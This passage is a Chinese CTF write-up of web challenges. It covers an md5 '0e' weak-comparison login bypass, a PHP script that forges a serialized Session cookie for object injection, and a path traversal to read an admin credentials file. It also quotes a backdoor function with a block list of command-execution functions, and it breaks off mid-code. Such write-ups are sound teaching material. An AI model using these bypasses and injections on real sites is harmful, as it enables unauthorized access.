 ```php
```

更多资料可以参考[PHP代码审计分段讲解](https://github.com/bowu678/php_bugs)

### login as admin 7

很经典的md5弱类型比较绕过，发送`name=admin&password=240610708`。原理就是`md5(240610708)`是`0e`开头，和`'00000000000000000000000000000000'`用`==`比较按科学计数法转换成0，都是0所以相等。

### login as admin 8 和 8.1

登录guest查看cookie，按照题目设置的cookie的值反推出Session类的结构，然后构造对象注入

```php
<?php
class Session
{
    private $debug=true;
    private $debug_dump="index.php";
    private $data=[];
    public $user="admin";
    public $pass="admin";
    public $is_admin=true;
}
$a = urlencode(serialize(new Session()));
echo $a;
echo "<br>";
echo hash('sha512', urldecode($a));
?>
```

`login8cookie`和`login8sha512`都要改。

然后把`debug`改成`true`，`debug_dump`改成其他文件查看代码，得到另一个flag。

### dafuq-manager 1,2,3

一个web版的文件管理器，guest/guest登陆进去，然后把cookie的show_hidden值改为yes看到第一个flag。

要得到第二个flag需要登录成admin，比较尴尬的是guest那里已经有前人的shell可以用了（点编辑可以看到源码），然后我全删了（

我们还是按题目要求流程来一下~

guest的目录那里给了题目的源码，不过没必要细看，直接黑盒审计。很简单就可以找到编辑文件那里可以遍历，读取`../../.config/.htusers.php`得到管理员权限（md5可以在somd5等网站解密），flag2就在管理员的文件里。

然后要求getshell拿到`$WEBROOT/flag3`

翻了下代码，找到一个自带的后门`/core/fun_debug.php`

```php
<?php
function make_command($cmd) {
    $hmac = hash_hmac('sha256', $cmd, $GLOBALS["secret_key"]);
    return sprintf('%s.%s', base64_encode($cmd), $hmac);
}
function do_debug() {
    assert(strlen($GLOBALS['secret_key']) > 40);
    $dir = $GLOBALS['__GET']['dir'];
    if (strcmp($dir, "magically") || strcmp($dir, "hacker") || strcmp($dir, "admin")) {
        show_error('You are not hacky enough :(');
    }
    list($cmd, $hmac) = explode('.', $GLOBALS['__GET']['command'], 2);
    $cmd = base64_decode($cmd);
    $bad_things = array('system', 'exec', 'popen', 'pcntl_exec', 'proc_open', 'passthru', '`', 'eval', 'assert', 'preg_replace', 'create_function', 'include', 'require', 'curl',);
    foreach ($bad_things as $bad) {
        if (stristr($cmd, $bad)) {
            die('2bad');
```